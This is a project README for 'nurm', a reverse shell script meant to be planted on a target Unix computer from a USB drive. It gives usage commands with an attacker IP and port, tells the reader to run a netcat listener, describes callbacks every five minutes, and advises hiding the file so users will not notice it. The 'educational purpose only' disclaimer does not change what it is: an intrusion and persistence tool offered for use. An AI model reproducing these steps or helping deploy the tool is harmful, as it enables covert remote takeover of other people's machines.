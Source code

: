 **This project is for educational purpose only**

## What is nurm?
"Now You Are Mine"(nurm) is an automatic reverse shell script that is designed to be placed and run on the target unix computer via the portable usb drive.

## What does it do?
Once run from the usb, nurm will send the reverse shell to any ip address and port that the user specified every five minutes, allowing the following device with the given ip address to access an interactive shell of the target given that the device is listening to the port specified.

## Usage
1) Download the script to your favorite usb stick
2) Run the script on the target machine once.  
   **Usage(v 1.0)**: `./nurm [-a ipaddress] [-p port] [-f full-path-filename]`  
   [ip address] - the ip address that the reverse shell will be sent through.  
   [port] - the port that is used for the udp connection  
   [full-path-filename] - the file with its full path that the reverse shell script will be stored  
3) Use nc -lvp [port] on the ip address  
4) The interactive shell will be sent every 5 minutes

## Example
`./nurm -a 127.168.123.98 -p 8987 -f /home/user1/.test` will create a script that will send the reverse shell to the address 127.168.123.98 at port 8987 and store the script to /home/user1/.test


## Precautions/ Tips
1) Always hide the file with ".". For example, .test. This way, many unexperienced users will never be ware of the script
2) The listening device should either be a server or a computer with static ip address. Otherwise, your computer can only be used once.
3) **This script is for educational purpose only. Don't use it to do illegal activities. You are the only responsible for your actions!**

## Status
Currently only support netcat reverse shell

## Upcoming features
- config files for script customization
- most common language support

